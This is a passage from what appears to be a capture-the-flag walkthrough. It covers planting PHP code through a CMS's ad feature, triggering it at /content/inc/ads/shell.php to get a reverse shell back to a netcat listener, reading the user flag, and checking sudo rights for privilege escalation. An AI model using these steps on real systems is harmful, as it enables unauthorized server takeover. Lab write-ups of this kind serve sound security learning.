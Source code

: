 Then **Save** / **Publish** the Ad.

**Why this works:** the CMS will store the Ad code in a file under `/content/inc/ads/` and will execute it when visited, which causes the PHP code to run on the server and initiate a connection back to your listener.



## 10) Trigger the shell and receive connection

Open the file in your browser at (http://<TARGET_IP>/content/inc/ads/) or click the link:

```
http://<TARGET_IP>/content/inc/ads/shell.php
```

As soon as that PHP executes on the server, your netcat listener should show an incoming connection and give you a shell prompt. Example output in listener:

```
connect to [10.10.14.5] from (UNKNOWN) [<TARGET_IP>] 12345
$ whoami
www-data
```

Now you have a remote shell as the web server user `www-data`.



## 11) Enumerate the machine and get the user flag

From your web shell:

```bash
# List the user home directory
ls -la /home/itguy

# Read the user flag
cat /home/itguy/user.txt
```

Save the string printed by the last command — that is the **user flag**.


## 12) Check privileges and look for sudo rights

Check your identity and whether you can run anything with sudo:

```bash
whoami
sudo -l
```

**Important:** `whoami` will typically show `www-data`.
`sudo -l` shows the commands the current user can run as root (if any). In this case you should see that the web user can run:

```
/usr/bin/perl /home/itguy/backup.pl
```
